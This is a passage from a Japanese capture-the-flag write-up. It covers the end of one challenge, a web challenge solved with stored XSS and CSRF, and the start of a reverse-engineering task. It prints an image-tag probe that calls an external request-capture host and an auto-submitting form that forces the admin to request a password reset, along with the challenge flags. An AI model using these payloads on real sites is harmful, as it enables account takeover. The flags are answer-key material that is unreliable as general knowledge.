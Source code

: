 に書き換えて `Read` を押すとフラグが得られました。

```
flag{aLW4ys_ESC4PE_3v3rYTH1NG!!!!!}
```

```
flag{aLW4ys_ESC4PE_3v3rYTH1NG!!!!!}
```

## [Web 100] It's Common Sense

与えられた URL にアクセスすると、製品のレビューができるサイトが表示されました。

レビューにはアカウントの登録が必要なようで、好きなユーザ名とメールアドレスで登録すると、そのメールアドレスにパスワードが届きました。

ログイン後、アカウントの管理ページにアクセスすると、製品のレビューのフォームとパスワードリセットのリクエストを送るフォームが表示されました。

パスワードリセットのフォームでいろいろ試していると、どうやら登録時のメールアドレス以外を入力してもパスワードが届くらしいと分かりました。admin のパスワードがフラグらしいので、このフォームは使えそうです。

レビューのフォームで何ができるか調べてみましょう。admin によってレビューがチェックされるようなので、XSS ができないか `<img src="https://requestb.in/xxxxxxxx">` を送ってみると、`https://requestb.in/xxxxxxxx` にアクセスが来ました。

では、パスワードリセットのフォームを使って admin のパスワードを手に入れることができないか試してみましょう。

```html
<form action="/account" method="POST" id="newpwd">
  <input type="hidden" name="email" value="(メールアドレス)">
  <input type="hidden" value="Send Request" name="formbtn">
</form>
<script>document.getElementById('newpwd').submit();</script>
```

を送ってみると、指定したメールアドレスに以下のようなメールが届きました。

```
Reset Your Password
Congratulations! Normally, you would've reset the administrators password. For the purposes of this challenge, the flag is tpctf{D1D_Y0U_N0t1c3_Common_Sense_Reviews_1s_P4R7_0F_CSRF_19210jka010920aff}
```

フラグが得られました。

```
tpctf{D1D_Y0U_N0t1c3_Common_Sense_Reviews_1s_P4R7_0F_CSRF_19210jka010920aff}
```

## [Reverse Engineering 60] Super Encryption!

`superencrypt` というファイルと、これを使ってフラグをエンコードした結果の `{% raw %}dufhyuc>bi{{f0|;vwh<~b5p5thjq6goj}{% endraw %}` という文字列が与えられました。`file` でどのようなファイルか調べてみましょう。

```
$ file ./superencrypt
./superencrypt: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=bbe7fab9052c139ccdb8456081d8b28ab6bf6b2b, not stripped
```
